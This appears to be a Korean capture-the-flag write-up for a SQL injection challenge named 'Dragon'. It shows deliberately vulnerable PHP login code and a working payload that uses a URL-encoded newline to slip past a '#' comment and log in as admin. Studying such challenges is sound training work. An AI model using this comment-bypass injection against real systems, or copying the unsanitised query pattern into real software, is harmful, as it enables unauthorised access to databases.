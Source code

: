 ## Dragon
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_dragon where id='guest'# and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("dragon");
  highlight_file(__FILE__); 
?>
```
### exploit
id값 뒤에 #이 붙어있어 pw에 어떤값을 입력하더라도 적용되지 않는다.
이 문제를 해결하려면 # 다시말해 한줄 주석을 우회해야한다.
```sql
select id from prob_dragon where id='guest'# and pw='{$_GET[pw]}'
-> select id from prob_dragon where id='guest'# and pw='%0a and pw='1' or id='admin'%23'
payload = %0a and pw='1' or id='admin'%23
```
이 문제를 해결하는 방법은 #이 한줄 주석인 것을 이용해 %0a로 그 뒤에 있는 값을 다른 줄로 인식하도록 만드는 것이다.<br>
%0a = \n의 URL encoding값이다.
<br>